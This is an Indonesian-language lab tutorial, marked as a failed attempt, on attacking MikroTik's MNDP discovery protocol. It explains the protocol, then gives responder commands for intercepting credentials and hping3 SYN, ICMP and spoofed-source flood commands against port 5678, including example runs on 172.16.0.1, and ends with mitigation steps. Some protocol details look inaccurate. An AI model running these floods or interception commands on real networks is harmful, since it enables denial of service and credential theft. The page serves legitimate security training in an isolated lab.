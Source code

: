 ```yaml
---
sidebar_position: 6
---
```


# MNDP Attack (gagal)

## Cara Kerja MNDP (MikroTik Neighbor Discovery Protocol)

MNDP (MikroTik Neighbor Discovery Protocol) adalah protokol yang digunakan oleh perangkat MikroTik untuk menemukan dan bertukar informasi dengan perangkat MikroTik lain dalam jaringan lokal. Cara kerja MNDP adalah sebagai berikut:

1. Perangkat MikroTik secara berkala mengirimkan paket MNDP multicast ke alamat `01:80:C2:00:00:0E` (LLDP Multicast Address) di jaringan lokal.
2. Paket ini berisi informasi seperti MAC Address, Interface, Model Perangkat, Versi RouterOS, dan identifikasi lainnya.
3. Perangkat MikroTik lain yang menerima paket ini akan merespons dengan mengirimkan informasi mereka sendiri.
4. Data yang dikumpulkan dapat digunakan oleh administrator jaringan untuk pemetaan dan manajemen perangkat dalam jaringan.

---

## Potensi Kerentanan pada MNDP

MNDP memiliki beberapa kerentanan yang dapat dieksploitasi oleh penyerang:

1. **Pengumpulan Informasi**: Karena MNDP bersifat broadcast/multicast, siapa pun di jaringan lokal dapat menangkap paket ini menggunakan alat seperti Wireshark atau `tcpdump`.
2. **Spoofing**: Penyerang dapat mengirimkan paket MNDP palsu dengan informasi yang dimanipulasi untuk mengelabui perangkat MikroTik lain.
3. **Denial of Service (DoS)**: Dengan membanjiri jaringan dengan paket MNDP palsu, penyerang dapat menyebabkan perangkat target kehabisan sumber daya.
4. **Man-in-the-Middle (MitM) Attack**: Penyerang dapat menggunakan MNDP untuk menemukan target dalam jaringan dan kemudian melakukan serangan lebih lanjut, seperti ARP poisoning.

<!-- ---

## Langkah-Langkah Eksploitasi MNDP

Penyerang dapat menggunakan berbagai alat untuk mengeksploitasi MNDP, seperti:

### 1. Pengumpulan Informasi dengan nmap
```bash
nmap --script mikrotik-mndp-info <target_ip>
```
**Penjelasan:**
- Menggunakan skrip khusus di nmap untuk mendapatkan detail informasi dari perangkat MikroTik yang mengaktifkan MNDP.

--- -->

### 1. Serangan MitM dengan responder
```bash
responder -I <interface> -w
```
**Penjelasan:**
- Responder dapat digunakan untuk mencegat paket MNDP dan mencoba mendapatkan kredensial atau informasi lainnya.

---

### 2. Serangan DoS dengan hping3

#### a) Mengirimkan ribuan paket SYN ke port 5678 (MNDP)
```bash
hping3 -c 10000 -i u10 -S -p 5678 <target_ip>
```
**Penjelasan:**
- `-c 10000`: Mengirimkan 10.000 paket.
- `-i u10`: Interval antar paket dalam mikrodetik.
- `-S`: Menggunakan flag SYN.
- `-p 5678`: Menargetkan port MNDP.

#### b) Mengirimkan paket ICMP Flood untuk membanjiri target
```bash
hping3 --flood 2 --icmp <target_ip>
```
**Penjelasan:**
- `--flood`: Mengirimkan paket sebanyak mungkin.
- `--icmp`: Menggunakan paket ICMP (Ping Flood).

#### c) Spoofing MNDP dengan MAC Address palsu
```bash
hping3 -c 5000 -i u5 --rand-source -S -p 5678 <target_ip>
```
**Penjelasan:**
- `--rand-source`: Menggunakan alamat sumber acak (spoofing).
- `-i u5`: Interval antar paket 5 mikrodetik.

---

### 3. Mengecek Traffic MNDP
```bash
sudo tcpdump -i eth0 port 5678 -n
```
**Penjelasan:**
- `-i eth0`: Menentukan interface jaringan yang akan dipantau.
- `port 5678`: Menampilkan hanya paket yang menuju atau berasal dari port MNDP.
- `-n`: Tidak melakukan resolusi nama domain (lebih cepat).

### 4. contoh penggunaan
```bash
hping3 -c 10000 -i u10 -S -p 5678 172.16.0.1
sudo hping3 --flood 2 -S -p 5678 172.16.0.1
```
<!-- ![alt text](docs/images/image-32.png) -->
![alt text](docs/images/image-33.png)

---

## Eksploitasi MNDP dalam Lingkungan Lab Virtual

Untuk mempraktikkan eksploitasi MNDP dengan aman, lingkungan lab virtual dapat digunakan dengan langkah-langkah berikut:

### 1. Persiapan Lingkungan
- Gunakan VirtualBox atau VMware untuk membuat jaringan virtual yang terisolasi.
- Instal RouterOS di VM dan aktifkan MNDP pada interface yang digunakan.

### 2. Konfigurasi Perangkat MikroTik
- Pastikan fitur MNDP aktif dengan perintah:
```bash
/ip neighbor discovery-settings set discover-interface-list=all
```
- Gunakan Wireshark di VM lain untuk menangkap paket MNDP.

### 3. Pengujian Eksploitasi
- Jalankan `nmap` untuk mengumpulkan informasi MNDP dari target.
- Gunakan `responder` untuk melihat apakah ada data sensitif yang bisa ditangkap.
- Lakukan serangan DoS menggunakan `hping3` dan lihat dampaknya pada perangkat target.

### 4. Mitigasi
- Nonaktifkan MNDP pada interface yang tidak perlu dengan:
```bash
/ip neighbor discovery-settings set discover-interface-list=none
```
- Gunakan firewall untuk memblokir paket MNDP dari perangkat yang tidak dikenal.

Dengan menggunakan lingkungan lab virtual, eksploitasi MNDP dapat diuji tanpa membahayakan jaringan produksi.